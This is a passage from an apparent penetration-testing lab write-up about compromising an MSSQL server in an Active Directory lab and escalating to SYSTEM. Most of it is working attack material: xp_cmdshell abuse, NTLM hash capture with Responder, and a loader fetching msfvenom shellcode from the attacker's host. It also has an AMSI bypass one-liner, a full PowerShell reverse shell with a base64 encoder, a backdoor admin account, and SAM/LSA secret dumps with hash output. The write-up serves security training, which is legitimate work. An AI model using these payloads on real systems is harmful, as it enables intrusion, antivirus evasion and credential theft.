enum_logins
It’s possible to see when we start enumerating users, that ‘sa’ is admin, ‘frank’ is admin, and of course our user is admin as well.
Impersonate - execute as login
We can enumerate the users we can impersonate on the server. Let's see if we can enumerate some valid impersonation here.
enum_impersonate
The command issued above will make the following queries into the MSSQL database listing all login with impersonation permission:
SELECT 'LOGIN' as 'execute as','' AS 'database',
pe.permission_name, pe.state_desc,pr.name AS 'grantee', pr2.name AS 'grantor'
FROM sys.server_permissions pe
JOIN sys.server_principals pr ON pe.grantee_principal_id = pr.principal_Id
JOIN sys.server_principals pr2 ON pe.grantor_principal_id = pr2.principal_Id WHERE pe.type = 'IM'The same request will also issue the request on each database in this MSSQL server:
use <db>;
SELECT 'USER' as 'execute as', DB_NAME() AS 'database',
pe.permission_name,pe.state_desc, pr.name AS 'grantee', pr2.name AS 'grantor'
FROM sys.database_permissions pe
JOIN sys.database_principals pr ON pe.grantee_principal_id = pr.principal_Id
JOIN sys.database_principals pr2 ON pe.grantor_principal_id = pr2.principal_Id WHERE pe.type = 'IM'Login and User, what is the difference ?
“SQL Login is for Authentication and SQL Server and User is for Authorisation. Authentication can decide if we have permissions to access the server or not and Authorization decides what are different operations we can do in a database. Login is created at the SQL Server instance level and User is created at the SQL Server database level. We can have multiple users from a different database connected to a single login to a server.”

The dc_admin user has been given the ability to impersonate the MS_DataCollectorInternalUser within the msdb database. If we have access as dc_admin, we may be able to execute actions or queries with the privileges of the MS_DataCollectorInternalUser. This can potentially allow us to escalate privileges within the SQL Server, depending on what permissions the MS_DataCollectorInternalUser has.
We could try to leverage this by running commands using the EXECUTE AS statement to impersonate the MS_DataCollectorInternalUser but instead, we already know that our created user contains enough privileges, so I’ll just impersonate sa user and carry on.
exec_as_login saenable_xp_cmdshellxp_cmdshell whoami
Ah we can see above that we are able to execute OS commands, and currently we are NT Authority\Network Service.
MSSQL NTLM Hash Stealing
This technique is effective when we have access to an MSSQL server and can manipulate it to trigger an NTLM authentication attempt from the server's account (the account running the MSSQL service).
Key Concepts:
On our attacking machine we can quickly setup Responder to be listening. sudo responder -I vmnet2 -dw -vvv
Now inside MSSQL we can simply execute the following. show_query exec master.sys.xp_dirtree '\\192.168.58.1\ntlm',1,1

SQL$::ACADEMY:ecbbb4ea48e2f499:A8B121A75D638635803C86FBD6039C6D:010100000000000000EA7F675321DB01C9078FFF3096C493000000000200080032005A004500320001001E00570049004E002D005A003000430050004600570037004C0058005A00590004003400570049004E002D005A003000430050004600570037004C0058005A0059002E0032005A00450032002E004C004F00430041004C000300140032005A00450032002E004C004F00430041004C000500140032005A00450032002E004C004F00430041004C000700080000EA7F675321DB01060004000200000008003000300000000000000000000000004000000BADA26E4C6466DE661F9E0FFC90F80583EAF57BFF4C2CF77A7C8C649A77CEC30A001000000000000000000000000000000000000900220063006900660073002F003100390032002E003100360038002E00350038002E0031000000000000000000We were able to capture the computer account SQL$ NTLM hash, This is really interesting, we can see that service is being running by the machine account and not with a user account or service account. let’s see if we can crack it. I was not able to crack the computer account SQL$ NTLMv2 hash.
Just for the record, I also tried NTLM Relay, being able to access 2 other machines, but I was not able to go no where from that path, even tho I was able to successfully access 2 host. Well it felt like a rabbit hole, so I gave a step back for another path.
Getting Reverse Shell to SQL Server.
We will now get a reverse shell and access the server remotely. I’ll use a private compiled loader to avoid being caught by the AV.. This loader is a tool designed to load and execute encrypted malicious PE files on Windows systems, using various techniques to bypass security products.
NOTE: From this session you may take the path as you please, the loader used in this session is a private one which is not published on the internet. Which can make this path a bit confusing to whom is reading it. You can achieve this reverse shell using several methods. I’ll describe the steps here but it’s for just for demonstration purpose.
So the main goal is to run shellcode_SQL.bin on SQL server in the memory, without touching the disk.. NOTE: I’m creating the shellcode file ending with _SQL.bin because this shellcode will be execute on a SQL server, so it’s just a matter of naming it, it doesn’t mean the shellcode must contain the same name.
Let’s start by building our loader. URL=http://192.168.58.1:8080/shellcode_SQL.bin cargo build --release --target=x86_64-pc-windows-gnu --features cli_support

The command above will compile 2 fibers-loaders, a fibers-loader.exe & fibers_loader.dll and when you execute the loader on the target, it will simply request your shellcode_SQL.bin using the IP and the port assigned during the compilation, in this case, request to shellcode_SQL.bin file will be made on 192.168.58.1:8080. The loaders will be created to the Dir “./target/x86_64-pc-windows-gnu/release/”
Next step is to create our shellcode_SQL.bin and for this we can use msfvenom. msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.58.1 LPORT=443 -f raw > shellcode_SQL.bin

It’s always good if we host all files on the same directory. We start our python server on our attacking machine where we are hosting the fibers-loader.dlland shellconde_SQL.bin. python3 -m http.server 8080
Listening on our attacking machine with msfconsole multi/handler. use exploit/multi/handler
set LHOST 192.168.58.1set LPORT 443exploit
Here is the explanation of my one liner execution. I’m using xp_cmdshell to run my payload remotely on the target system in this case in MSSQL server.
When building the loader, you get both EXE and DLL file. You can use the DLL file to exploit DLL hijacking, DLL side-loading, or remote DLL loading.
Using it for DLL loading, we can load it remotely using rundll32 and impacket-smbserver:
Finally, I run my payload (fibers_loader.dll).
xp_cmdshell "net use \\192.168.58.1\share /user:stark Stark123! && rundll32 \\192.168.58.1\share\fibers_loader.dll,inject"
Once we execute the following command, we get direct access to the remote host server. shell

AMAZING. WE GOT REVERSE SHELL ON MSSQL SERVER.
Privesc On SQL Server
While doing the enumeration after getting the reverse shell, I got some juicy information. whoami /all

Above screenshot it’s possible to see that our user contains several privileges. The most promising one is the SeImpersonatePrivilege privilege. Since I already know how to abuse this privilege, I’ll stick to this one.
SQL Server Privilege Escalation - SeImpersonatePrivilege
SeImpersonatePrivilege is a powerful privilege in Windows that allows a process to impersonate the security context of another user. This privilege can be exploited to escalate privileges to SYSTEM using various tools, including GodPotato.
Overview of GodPotato
GodPotato is a tool that leverages COM services to exploit the SeImpersonatePrivilege and achieve privilege escalation to SYSTEM. It is similar to other tools in the Potato family (like JuicyPotato and RottenPotato), but it works on newer versions of Windows where older Potato techniques might be mitigated.How GodPotato Works
Uploading the GodPotato.exe won’t work because the AV will delete it… Because we do have AV activated on this MSSQL server, we will do an AMSI bypass and also use a Loader to be able to execute the GodPotato.exe in the memory.
The command we provide performs a series of actions aimed at bypassing AMSI (Antimalware Scan Interface) detection, loading code into memory, and executing a .NET executable without writing the binary to the physical disk.
Why a One-Liner?
I’ve combined all these actions into a single command to reduce the number of requests made to the target. This not only saves time but also minimizes network traffic, potentially reducing the chance of detection by security systems or logging mechanisms. This one-liner allows us to bypass AMSI, execute a .NET binary entirely in memory, and interact with the system without leaving traditional artifacts, making it an efficient method for stealthy post-exploitation. IEX(IWR http://192.168.58.1:8080/AMSI_Bypass.txt -UseBasicParsing); Invoke-Evasion; IEX(IWR http://192.168.58.1:8080/Invoke-Assembly.ps1 -UseBasicParsing); Invoke-Assembly http://192.168.58.1:8080/GodPotato.exe -cmd "powershell /c whoami"

Well, we can see above that we were able to execute the command as NT AUTHORITY\SYSTEM. To get a shell we can use a basic Powershell webshell.
$c = New-Object System.Net.Sockets.TCPClient('192.168.56.1',4444);
$s = $c.GetStream();[byte[]]$b = 0..65535|%{0};
while(($i = $s.Read($b, 0, $b.Length)) -ne 0){
$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);
$sb = (iex $d 2>&1 | Out-String );
$sb = ([text.encoding]::ASCII).GetBytes($sb + 'ps> ');
$s.Write($sb,0,$sb.Length);
$s.Flush()
};
$c.Close()Let’s convert this Powershell command to base64 in utf-16 for powershell.
#!/usr/bin/env python
import base64
import sys
if len(sys.argv) < 3:
print('usage : %s ip port' % sys.argv[0])
sys.exit(0)
payload="""
$c = New-Object System.Net.Sockets.TCPClient('%s',%s);
$s = $c.GetStream();[byte[]]$b = 0..65535|%%{0};
while(($i = $s.Read($b, 0, $b.Length)) -ne 0){
$d = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);
$sb = (iex $d 2>&1 | Out-String );
$sb = ([text.encoding]::ASCII).GetBytes($sb + 'ps> ');
$s.Write($sb,0,$sb.Length);
$s.Flush()
};
$c.Close()
""" % (sys.argv[1], sys.argv[2])
byte = payload.encode('utf-16-le')
b64 = base64.b64encode(byte)
print("powershell -exec bypass -enc %s" % b64.decode())Let’s convert now the Powershell payload to base64 using local IP and local port listening for the connection. ./ShellConvBase64.py 192.168.58.1 8443

powershell -exec bypass -enc CgAkAGMAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBTAG8AYwBrAGUAdABzAC4AVABDAFAAQwBsAGkAZQBuAHQAKAAnADEAOQAyAC4AMQA2ADgALgA1ADgALgAxACcALAA4ADQANAAzACkAOwAKACQAcwAgAD0AIAAkAGMALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwAKAHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwAuAFIAZQBhAGQAKAAkAGIALAAgADAALAAgACQAYgAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsACgAgACAAIAAgACQAZAAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiACwAMAAsACAAJABpACkAOwAKACAAIAAgACAAJABzAGIAIAA9ACAAKABpAGUAeAAgACQAZAAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAKACAAIAAgACAAJABzAGIAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAYgAgACsAIAAnAHAAcwA+ACAAJwApADsACgAgACAAIAAgACQAcwAuAFcAcgBpAHQAZQAoACQAcwBiACwAMAAsACQAcwBiAC4ATABlAG4AZwB0AGgAKQA7AAoAIAAgACAAIAAkAHMALgBGAGwAdQBzAGgAKAApAAoAfQA7AAoAJABjAC4AQwBsAG8AcwBlACgAKQAKAA==On my attacking machine, now we start listening on the new port 8443. and execute the command to get another reverse shell as NT AUTHORITY\SYSTEM. IEX(IWR http://192.168.58.1:8080/AMSI_Bypass.txt -UseBasicParsing); Invoke-Evasion; IEX(IWR http://192.168.58.1:8080/Invoke-Assembly.ps1 -UseBasicParsing); Invoke-Assembly http://192.168.58.1:8080/GodPotato.exe -cmd "powershell -exec bypass -enc CgAkAGMAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4ATgBlAHQALgBTAG8AYwBrAGUAdABzAC4AVABDAFAAQwBsAGkAZQBuAHQAKAAnADEAOQAyAC4AMQA2ADgALgA1ADgALgAxACcALAA4ADQANAAzACkAOwAKACQAcwAgAD0AIAAkAGMALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwAKAHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwAuAFIAZQBhAGQAKAAkAGIALAAgADAALAAgACQAYgAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsACgAgACAAIAAgACQAZAAgAD0AIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIAAtAFQAeQBwAGUATgBhAG0AZQAgAFMAeQBzAHQAZQBtAC4AVABlAHgAdAAuAEEAUwBDAEkASQBFAG4AYwBvAGQAaQBuAGcAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiACwAMAAsACAAJABpACkAOwAKACAAIAAgACAAJABzAGIAIAA9ACAAKABpAGUAeAAgACQAZAAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAKACAAIAAgACAAJABzAGIAIAA9ACAAKABbAHQAZQB4AHQALgBlAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJACkALgBHAGUAdABCAHkAdABlAHMAKAAkAHMAYgAgACsAIAAnAHAAcwA+ACAAJwApADsACgAgACAAIAAgACQAcwAuAFcAcgBpAHQAZQAoACQAcwBiACwAMAAsACQAcwBiAC4ATABlAG4AZwB0AGgAKQA7AAoAIAAgACAAIAAkAHMALgBGAGwAdQBzAGgAKAApAAoAfQA7AAoAJABjAC4AQwBsAG8AcwBlACgAKQAKAA=="

We can see above that we were able to bypass AV and get a new reverse shell as NT AUTHORITY\SYSTEM. I just decided now to create a new user and add it to the local Administrators group, this way we can also access the host using Evil-WinRM and have a better interactive remote access.
net user stark Stark123! /add
net localgroup Administrators stark /add
evil-winrm -i 'sql.academy.ninja.lan' -u 'stark' -p 'Stark123!'
Credential Dumping
This is a technique used in post-exploitation scenarios to extract password hashes and other sensitive information from a Windows system. The attack works because of how Windows stores user credentials, system secrets, and machine-specific encryption keys. The attack is used for local privilege escalation and credential dumping, where SYSTEM-level access is used to dump the SAM hashes, which can then be used for various attack vectors (such as offline cracking or pass-the-hash). The key reason this works is that Windows stores sensitive information in the SAM, SYSTEM, and SECURITY files, and once you have the correct decryption.
Since we do have a valid local account and we also know that this user is part of local Administrator, we can dump the SYSTEM, SAM AND SECURITY and use secretsdump.py locally on our attacking machine.
reg save HKLM\SAM C:\SAM
reg save HKLM\SYSTEM C:\SYSTEM
reg save HKLM\SECURITY C:\SECURITY
Now we can decrypt the file combining them all with secretsdump.py from Impacket.
secretsdump.py -system SYSTEM -security SECURITY -sam SAM localImpacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Target system bootKey: 0x09f0e77b6d3034f06838e2b342e72a53
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a12f1ae521c09a176
ae74feb7806138d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:735321419edbcaf47456751eea0b237c:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
stark:1002:aad3b435b51404eeaad3b435b51404ee:b0944203d940ebd9c5c3f32977934581:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
$MACHINE.ACC:plain_password_hex:6900540041004b00720024006d004f004d005c004d0073002d0078005d004a004c0063002a004700610045005800640028004f0057003100320032006d007500540046004c006500470028007a00420072005e00200027002b003100340064002d002200790042005c003c0046007a0054007800210070005b0078002200310079006000510045005a006b00640035003c003f0040007400740026004b005f0054006f004900460065007500310037002a0042003b00600042003000200046005100450053002a004700250040005d005300390045005500240064007600430048005c005f005f005200470069003100
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:3422a1ba79e091b4693f493c6b8713b7
[*] DPAPI_SYSTEM
dpapi_machinekey:0xedaa1a16f7be383e847d067f6113542494c894c5
dpapi_userkey:0x6054d69d228906a2d89cfaf6f64e4868eb040272
[*] NL$KM
0000 64 08 D7 D8 E2 AF EA 8D 0F 5E 5B 10 1F 23 11 78 d........^[..#.x
0010 ED CE AE 62 D3 21 B9 40 A8 90 6C 04 48 D8 43 40 ...b.!.@..l.H.C@
0020 0B C9 38 BA 1C CA CF F0 B5 11 7C 8C E6 5D 2C 99 ..8.......|..],.
0030 46 0E 1B 18 B3 E1 DF F7 83 1C 3E CE CD 1E 60 9B F.........>...`.
NL$KM:6408d7d8e2afea8d0f5e5b101f231178edceae62d321b940a8906c0448d843400bc938ba1ccacff0b5117c8ce65d2c99460e1b18b3e1dff7831c3ececd1e609b
[*] Cleaning up... We can see above that we were able to dump several hashes. but for some reason I noticed that we were missing lots of information, so I decided to used the just dumped Administrator NTLM hash and use secretsdump.py again, but this type I’ll request it straight to the server.
secretsdump.py -hashes 'aad3b435b51404eeaad3b435b51404ee:a12f1ae521c09a176ae74feb7806138d' 'administrator@sql.academy.ninja.lan'Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x7e54af66e1c76eaab8864726bd68ed4c
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a12f1ae521c09a176ae74feb7806138d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:735321419edbcaf47456751eea0b237c:::
vagrant:1000:aad3b435b51404eeaad3b435b51404ee:e02bc503339d51f71d913c245d35b50b:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
ACADEMY\SQL$:aes256-cts-hmac-sha1-96:52910fc862652b7a15e0faf0bad2de655196ad608b301e7c9435e6929634746f
ACADEMY\SQL$:aes128-cts-hmac-sha1-96:c3f0b1680db504986b63f0d1bf550d3a
ACADEMY\SQL$:des-cbc-md5:dfea2992e5fbb667
ACADEMY\SQL$:plain_password_hex:3e0046003d00680048005d0073005c0067006000260063002c00470028004e00470047005e0078002b0059005c0071005c002b005800690024003a0079006300680053006d00380072002200300037007a005d0035002e006b002d00600052005c003b0034004300600070002e005e00450032002500740032003f00370024003e0076005e00500026006f00550077002d0074003c006d002600460044002f006b00680037006a004b004b0042003b004e0022007a002e00570059003a00760074002f002c003c0030005500340067004e00720042003700610069005c0044005b0066005f0032006e0031006b004800
ACADEMY\SQL$:aad3b435b51404eeaad3b435b51404ee:66f097fc97f0fbad31615ca975654d8c:::
[*] DPAPI_SYSTEM
dpapi_machinekey:0x83b4382ff8e49bef29bcb3f4caa9ddaff440b192
dpapi_userkey:0xdcc2bd3ad6bb78be3cdbe794498c30d5c2ad345e
[*] NL$KM
0000 64 08 D7 D8 E2 AF EA 8D 0F 5E 5B 10 1F 23 11 78 d........^[..#.x
0010 ED CE AE 62 D3 21 B9 40 A8 90 6C 04 48 D8 43 40 ...b.!.@..l.H.C@
0020 0B C9 38 BA 1C CA CF F0 B5 11 7C 8C E6 5D 2C 99 ..8.......|..],.
0030 46 0E 1B 18 B3 E1 DF F7 83 1C 3E CE CD 1E 60 9B F.........>...`.
NL$KM:6408d7d8e2afea8d0f5e5b101f231178edceae62d321b940a8906c0448d843400bc938ba1ccacff0b5117c8ce65d2c99460e1b18b3e1dff7831c3ececd1e609b
[*] Cleaning up...
[*] Stopping service RemoteRegistryI tried to crack these hashes but It didn’t work at all.
Dumping All Domain Users
GetADUsers.py is a part of the Impacket toolkit, which is a collection of Python classes for working with network protocols, it is specifically designed to interact with Active Directory (AD) and extract user information. This script will gather data about the domain's users and their corresponding email addresses. It will also include some extra information about last logon and last password set attributes.
Helpful in post-compromise enumeration. If you've compromised a domain-joined host, and you've dumped the hashes from SAM or LSASS, you can pass the hash to the domain controller (even as a low-level domain user) to list users in the directory.
Now that we do have a valid computer account credentials like aeskeys and NTLM hash, let’s enumerate it again. I’ll start as usual by requesting the full list of all valid users we do have inside the domain. GetADUsers.py -all 'academy.ninja.lan/SQL$@dc-ac.academy.ninja.lan' -aesKey '52910fc862652b7a15e0faf0bad2de655196ad608b301e7c9435e6929634746f'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies
[*] Getting machine hostname
[-] CCache file is not found. Skipping...
[*] Querying DC-AC for information about domain.
Name Email PasswordLastSet LastLogon
-------------------- ------------------------------ ------------------- -------------------
Administrator 2024-10-16 08:51:28.398629 2024-10-16 09:16:50.079222
Guest <never> <never>
vagrant 2023-10-19 21:46:18.904099 2024-10-16 09:24:40.132210
krbtgt 2024-10-16 08:54:59.272038 <never>
